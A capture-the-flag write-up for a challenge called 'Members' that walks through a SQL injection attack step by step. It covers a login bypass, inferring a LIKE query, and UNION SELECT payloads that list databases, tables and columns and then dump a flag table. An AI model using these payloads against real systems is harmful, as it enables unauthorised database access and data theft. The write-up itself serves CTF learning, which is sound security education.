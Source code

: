 # Members

## Description

![img](img/1.png)

## Solution

When i got the flag from this challenge i was really confused because the flag didn't match with any challenge
and i thought it was a fake flag or that the flag was from the authentication challenge but i was wrong, this flag was from a challenge that wasn't even announced so maybe i was one of the first guys that solved it correctly lol but i forgot to put the flag again until i wake up haha.

First i used a basic SQLI to login.

![img](img/2.png)

Then i look how did the query work and after some tests i thought it was a query with the LIKE operator.

![img](img/3.png)

As you can see after i searched "VO", the query matched a row and returned Stephane Schmitt-Pru"VO"st.
![img](img/4.png)
So, the query must be:

``` SELECT * FROM table WHERE field LIKE '%variable%'; ``` 

OR

``` SELECT * FROM table WHERE field LIKE "%variable%"; ``` 

Notice that the only difference are the quotes.

Possible SQLI:
``` SELECT * FROM table WHERE field LIKE "%variable%" and id=1;-- - %"; ```

And it worked, if i changed the id then the query returned a different member so let's try a UNION SELECT attack.

![img](img/5.png)

First, i needed to know how many columns the query returned and after some tests i knew that there were 3 columns.

![img](img/6.png)

Then, i writed data in the UNION SELECT attack just to test the data type that each column returned.

![img](img/7.png)

![img](img/8.png)

The next steps were:
<ul>
    <li>Get each database in the service.
    <p><code>%" UNION SELECT group_concat(schema_name), null, null FROM information_schema.schemata WHERE schema_name LIKE '%%' OR schema_name LIKE '%%';</code></p><br/>
    <img src="img/9.png"/>
    </li>
    <li>Get each table in the database.
    <p><code>%" UNION SELECT group_concat(table_name), null, null FROM information_schema.tables WHERE table_schema=database();-- -</code></p><br/>
    <img src="img/10.png"/>
    </li>
    <li>Get each column in each table or at least in the interesting ones.
    <p><code>%" UNION SELECT group_concat(column_name), null, null FROM information_schema.columns WHERE table_schema=database() AND table_name='supa_secret_table'-- -</code></p><br/>
    <img src="img/11.png"/>
    </li>
    <li>Search the flag in each row.
    <p><code>%" UNION SELECT GROUP_CONCAT(flag), null, null FROM supa_secret_table; -- -</code></p><br/>
    <img src="img/12.png"/>
    </li>
</ul>

That's how i got the flag.

```
Remember us, remember that we lived...
```